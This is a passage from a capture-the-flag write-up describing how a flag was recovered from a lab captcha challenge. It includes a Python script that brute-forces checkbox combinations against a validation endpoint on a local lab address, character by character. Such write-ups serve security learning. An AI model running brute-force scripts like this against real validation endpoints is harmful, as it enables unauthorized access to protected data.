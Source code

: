 ```
---------------------2------------------------------- 392
------------------------------S---------------------- 613
--------------------W-------------------------------- 391
```

As there were 53 characters in total, I modified my script to repeat the process I'd previously used to step through the range of 0-52 and use this as the `qid` and build up the full flag.

The final script was:

```python
import itertools
import requests
import re

flag = ''
regex = re.compile('Here is your flag: [-]{0,}?([^-]){1}')
for i in range(0, 53):
    print 'Fetching character {offset} / 52...'.format(offset = i)
    for c in itertools.product(['on', 'off'], repeat=6):
        p = {}

        p['qid'] = i

        if c[0] == 'on':
            p['cb0'] = 'on'

        if c[1] == 'on':
            p['cb1'] = 'on'

        if c[2] == 'on':
            p['cb2'] = 'on'

        if c[3] == 'on':
            p['cb3'] = 'on'

        if c[4] == 'on':
            p['cb4'] = 'on'

        if c[5] == 'on':
            p['cb5'] = 'on'

        r = requests.get("http://10.0.2.15/captcha/validate", params= p, allow_redirects=False)

        if "Incorrect" not in r.text:
            m = regex.search(r.text)
            flag += m.group(1)
            break

print 'Flag: {flag}'.format(flag = flag)
```

After around 10 minutes, the script finished running, and the flag was recovered:
